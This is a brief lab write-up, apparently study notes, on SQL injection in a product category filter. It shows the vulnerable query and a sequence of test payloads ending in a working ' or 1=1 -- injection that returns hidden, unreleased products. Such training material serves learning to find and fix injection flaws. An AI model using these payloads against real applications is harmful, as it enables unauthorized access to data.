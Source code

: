 Lab - SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

SQL injection - product category filter

Vulnerable query - SELECT * FROM products WHERE category = 'Gifts' AND released = 1 

Goal: display all products both released and unreleased.

Testing different scenarios and payloads:
	SELECT * FROM products WHERE category = 'Pets' AND released = 1          
	\  
	SELECT * FROM products WHERE category = ''' AND released = 1
	\ 
	SELECT * FROM products WHERE category = ''--' AND released = 1 
	\ 
	SELECT * FROM products WHERE category = ''
	\ 
	SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1 
